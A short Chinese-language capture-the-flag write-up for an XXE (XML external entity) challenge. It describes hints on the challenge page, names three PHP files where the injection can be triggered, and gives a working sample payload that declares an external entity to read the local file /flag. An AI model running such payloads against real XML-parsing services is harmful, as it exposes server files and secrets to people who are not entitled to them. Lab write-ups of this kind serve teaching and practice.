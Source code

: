 ----

### XML External Entity

#### 出题解析

考察XXE注入，即 XML实体注入

#### 解题方式

打开直接给phpinfo，源代码有提示
![hint](S3cCTF-出题人gyy-Writeup/20201122195910990.png)
底部发现
![system](S3cCTF-出题人gyy-Writeup/20201122195933621.png)
其实是执行了`system("ls");`
![index](S3cCTF-出题人gyy-Writeup/20201122200056166.png)
然后每个文件都高亮了语法，`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。存在的XXE漏洞具体可以百度研究一下。
样例Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root>
```
